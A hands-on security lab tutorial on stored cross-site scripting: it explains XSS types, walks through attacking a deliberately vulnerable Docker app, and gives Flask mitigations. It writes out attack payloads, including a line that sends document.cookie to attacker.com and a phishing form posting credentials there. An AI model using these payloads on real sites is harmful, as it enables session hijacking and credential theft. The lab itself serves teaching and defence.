







# Stored Cross Site Scripting (XSS)

Cross-Site Scripting (XSS) is a critical security vulnerability in web applications that allows attackers to inject and execute malicious scripts in a user’s browser. These scripts can compromise sensitive data, hijack user sessions, deface websites, or perform unauthorized actions.

## **Objective**

- Running the vulnerable `Application` in `Docker`.
- Performing a `Stored XSS` attack on the `Application`.
- Understanding how malicious scripts can be injected and stored on a server.
- Identifying ways to detect and mitigate stored XSS vulnerabilities.
- Demonstrating security best practices to prevent XSS attacks in production systems.

## **What is Cross-Site Scripting (XSS)?**

XSS is a **web security vulnerability** where attackers inject **malicious scripts** into web pages. These scripts can manipulate the DOM, steal sensitive data, and impersonate users. XSS attacks usually exploit vulnerabilities in input handling and output rendering in web applications.


## **How Does XSS Work?**

### **1. Injection**  
The attacker injects **malicious input** into a vulnerable part of the web application, such as a form, URL parameter, or comment section. This input is designed to be processed as executable code rather than plain text.

- Example injection in a form field:  
  ```html
  <script>alert('XSS Attack');</script>
  ```

### **2. Execution**  
The browser executes the injected script when the user accesses the page containing the malicious input. Depending on the type of XSS (Stored, Reflected, or DOM-Based), this could happen automatically (Stored XSS) or require a user to click a malicious link (Reflected XSS).

- Example vulnerable output:  
  ```html
  <p>Search results for: <script>alert('XSS Attack');</script></p>
  ```
  
The browser renders and runs the script, displaying an alert box in this example.

### **3. Attack**  
Once executed, the script can perform harmful actions such as:
- **Stealing cookies**:  
  ```javascript
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
  ```

  `document.cookie` is used to get the cookies of the user which is stored in the browser.

- **Manipulating the page (DOM)**:  
  ```javascript
  document.body.innerHTML = '<h1>This site has been hacked!</h1>';
  ```
  `innerHTML` is used to get the innerHTML of the body of the page. When the page is loaded, the script is executed and the innerHTML of the body is changed to `<h1>This site has been hacked!</h1>`.

- **Tricking users with phishing forms**:
  ```html
  <form action="https://attacker.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Log In</button>
  </form>
  ```

  The form is submitted to the attacker's server and the username and password are stolen. User is not aware that their credentials are being stolen as the form is submitted to the attacker's server and the user is redirected to the attacker's website.
  
  
  ## **Types of XSS Attacks**


### **1. Stored XSS (Persistent XSS)**  
In **Stored XSS**, the malicious input is saved on the server, such as in a database. It gets embedded in a web page and automatically executed whenever a user accesses that page. For example, an attacker could post a comment containing a script, which runs whenever someone views the comment.

### **2. Reflected XSS (Non-Persistent XSS)**  
In **Reflected XSS**, the injected script is not stored on the server. Instead, it is included in the server's response based on user input. The attack usually requires the victim to click a malicious link that contains the script in a query parameter or form submission.

### **3. DOM-Based XSS**  
In **DOM-Based XSS**, the vulnerability is present in client-side JavaScript code. The application reads untrusted input (e.g., from the URL) and dynamically manipulates the page's content, leading to script execution without any server involvement.


## **Stored XSS**

Stored XSS (also known as Persistent XSS) occurs when a malicious script is injected into a website and stored on the target server, such as in a database. The malicious script is then served to other users when they access the affected page. This makes stored XSS particularly dangerous as it can affect multiple users and persists across sessions.


### **How Stored XSS Works**

- Attacker Submits Malicious Script The hacker injects malicious JavaScript code into the website's database through input fields like comments, profile information, or forum posts.
- Website Stores the Malicious Code The vulnerable application saves the malicious script in its database without proper sanitization or validation.
- Multiple Users Access the Compromised Page When any user (including administrators) visits the affected page, the stored malicious script is retrieved from the database.
- Users' Browsers Execute the Script Everyone who loads the affected page automatically executes the malicious script in their browsers, potentially affecting hundreds or thousands of visitors.

### **Impact of Stored XSS**

- **Mass Exploitation:** Unlike reflected XSS, stored attacks can affect all visitors to the compromised page, making them more dangerous and widespread.
- **Persistent Account Compromise:** Attackers can steal cookies and session tokens from multiple users, leading to widespread account hijacking.
- **Data Theft:** Sensitive information like personal details, credentials, and payment information can be captured from numerous victims.
- **Malware Distribution:** Scripts can redirect users to malicious websites or trigger drive-by downloads of malware.
- **Privilege Escalation:** If an administrative user views the affected page, the attacker might gain access to sensitive administrative functions.
- **Website Defacement:** The site's content and appearance can be altered for all visitors, damaging the organization's reputation.
- **Long-Term Persistence:** The attack continues until the malicious script is identified and removed from the database.

## **Hands-on with Reflected XSS**

1. **Pull the Docker Image**

   ```bash
   docker pull yeasin97/stored-lab1:latest
   ```

2. **Run the Docker Container**

   ```bash
   docker run -d -p 5000:5000 yeasin97/stored-lab1:latest
   ```
3. **Create a Load Balancer in Poridhi's Cloud**

   Find the `eth0` IP address with `ifconfig` command.

   

   Create a Load Balancer with the `eth0 IP` address and the port `5000`

   
   
4. **Access the Web Application**

   Access the web application with the the provided `URL` by `loadbalancer`

   
   
   
### **Exploring the Application**
This web app is designed to demonstrate Stored XSS attacks. It allows users to input data, which is permanently stored in the application's database without proper sanitization, making it vulnerable to malicious script injection that affects all users who visit the site.

When a user adds a comment, it's permanently stored in the database. For example, if a user enters a simple greeting in the comment field, it will be displayed to all visitors who load the page.

Try submitting "Poridhi", "Hello" respectively and click the Submit Button.



See the new comment is apperead in the page and everyone can see it visiting this page. 



### **Exploiting the Application**

Try submitting "Hacker" as name and suggested payload below then click the Submit Button.



As soon as the the comments is fetched from the server, the comment which has malicious script gets executed and alert message is shown.



As this website is vulnerable you can submit more malicious scripts.
Try submitting this as comment and observe what happened.

```html
<button popovertarget=x>Click me</button><xss ontoggle=alert(1) popover id=x>XSS</xss>
```


You can find more malicious script in this link. Try submitting some from the list.

- [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)


## **How to Prevent Stored XSS**

### 1. Input Sanitization
**Protection Mechanism:** Sanitization removes or neutralizes potentially dangerous content from user input before storage.

**How it protects:** By stripping or encoding HTML tags and special characters, sanitization prevents attackers from injecting executable code that could be stored and later executed in users' browsers.

**Implementation (Python with Flask):**
```python
from markupsafe import escape

@app.route('/add_comment', methods=['POST'])
def add_comment():
    username = escape(request.form.get('username'))
    content = escape(request.form.get('content'))
    # Store sanitized input
    comment = Comment(username=username, content=content)
    db.session.add(comment)
    db.session.commit()
```
   **Alternative using Bleach library:**
   ```python
   import bleach
   
   @app.route('/add_comment', methods=['POST'])
   def add_comment():
       username = bleach.clean(request.form.get('username'))
       content = bleach.clean(request.form.get('content'), 
                            tags=['p', 'b', 'i'], 
                            strip=True)
       # Store sanitized input
   ```

### 2. Output Encoding
**Protection Mechanism:** Output encoding converts characters into their HTML entity equivalents.

**How it protects:** Even if malicious content somehow makes it into your database, encoding ensures that when the content is displayed, browsers interpret it as text rather than executable code.

**Implementation (Flask with Jinja2):**
```html
<!-- Auto-escaping is enabled by default in Flask's Jinja2 templates -->
<div class="comment">
    <h3>{{ comment.username }}</h3>
    <p>{{ comment.content }}</p>
</div>
```

### 3. Content Security Policy (CSP)
**Protection Mechanism:** CSP is an HTTP header that tells browsers which dynamic resources are allowed to load.

**How it protects:** CSP provides a defense-in-depth approach by restricting which scripts can execute, even if an XSS vulnerability exists. It acts as a safety net by preventing script execution from unauthorized sources.

**Implementation (Python with Flask):**
```python
@app.after_request
def add_security_headers(response):
    response.headers['Content-Security-Policy'] = "default-src 'self'; script-src 'self'; object-src 'none';"
    return response
```

### 4. Input Validation
**Protection Mechanism:** Input validation ensures that user input conforms to expected formats and values.

**How it protects:** By rejecting suspicious or malformed input that doesn't match expected patterns, validation prevents potentially harmful data from entering your application in the first place.

**Implementation (Python):**
```python
def validate_comment(username, content):
    if not username or not content:
        return False
    if len(username) > 50 or len(content) > 1000:
        return False
    return True
    
# Usage in route
if not validate_comment(username, content):
    return "Invalid input", 400
```

### 5. HTTP-Only Cookies
**Protection Mechanism:** HTTP-Only flag prevents JavaScript from accessing cookies.

**How it protects:** Even if an XSS vulnerability exists, attackers cannot easily steal session cookies through client-side scripts, preventing session hijacking attacks.

**Implementation (Python with Flask):**
```python
app.config['SESSION_COOKIE_HTTPONLY'] = True
app.config['REMEMBER_COOKIE_HTTPONLY'] = True
```


### 6. X-XSS-Protection Header
**Protection Mechanism:** Enables browser's built-in XSS filters.

**How it protects:** Modern browsers have built-in XSS detection capabilities that can be activated with this header, providing an additional layer of defense.

```python
@app.after_request
def add_security_headers(response):
    response.headers['X-XSS-Protection'] = '1; mode=block'
    return response
```

## **Conclusion**
In this lab, we have learned about Stored XSS attacks and their impact on web applications. We explored how malicious scripts can be injected and stored on a server, affecting all users who visit the vulnerable page. By implementing proper input sanitization, output encoding, Content Security Policies, and input validation, we can effectively prevent Stored XSS vulnerabilities in our web applications. These security measures are essential for protecting user data and maintaining the integrity of web services in production environments.
